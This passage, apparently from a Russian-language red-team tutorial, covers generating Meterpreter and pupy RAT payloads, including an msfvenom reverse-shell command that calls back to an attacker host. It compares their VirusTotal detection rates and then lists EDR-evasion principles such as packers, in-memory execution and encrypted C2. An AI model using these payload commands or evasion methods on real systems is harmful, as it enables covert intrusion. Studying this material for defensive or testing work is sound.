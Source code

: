          $ mkdir check
         
         $ cd check

2. Сгенерируем exe-файл для 64-разрядной версии Windows с C2-агентом Meterpreter, осуществляющим обратное подключение к
   нашей машине:

> $ msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe LHOST=10.8.0.14 LPORT=4444 > loader.exe

3. Загрузим файл на VirusTotal и увидим, что он детектируется практически всеми AV-решениями, что естественно, так как
   этот фреймворк крайне популярен, и при генерировании полезной нагрузки не были применены какие-либо меры для защиты
   от детекта.

Проведем аналогичный эксперимент с pupy rat:

> > gen -h

> > gen -f client -A x64 -O windows -o loader-pu.exe

$ cd /tmp/projects/default

Как видим, вердикты AV-решений поменялись, и уровень детектируемости незначительно снизился, так как этот фреймворк
несколько менее популярен.

4. Выберем другой формат текстовый — файл с кодом на Python:

> > gen -f pyinst -A x64 -O windows -o loader.py

Этот файл будет детектироваться очень слабо, так как требуемый для запуска этого файла интерпретатор Python встречается
крайне редко на Windows-системах обычных пользователей и в корпоративной среде . Поэтому такой вид нагрузок почти не
встречается в реальных атаках.

### Общие принципы

Основными принципами противодействия будут являться:

- Снижение активности в сети. Исключение сканирования или масштабного сканирования сети и работа только с прикладными
  легитимными протоколами и сервисами (LDAP, Kerberos, DNS, которые вы получаете напрямую из DNS записей домена).
- Использование шифрованных каналов связи с прикладными протоколами и только зашифрованная коммуникация с агентами /
  нагрузками в C&C.
- Использование нагрузок, подготовленных к противодействию обнаружению средствами EPP и EDR (использование упаковщиков,
  исполнения в памяти, кастомизация нагрузок от обнаружения).

### Обнаружение хакера

Для понимания общих принципов противодействия обнаружению важно понимать, кто или что может обнаружить присутствие
хакера в сети.
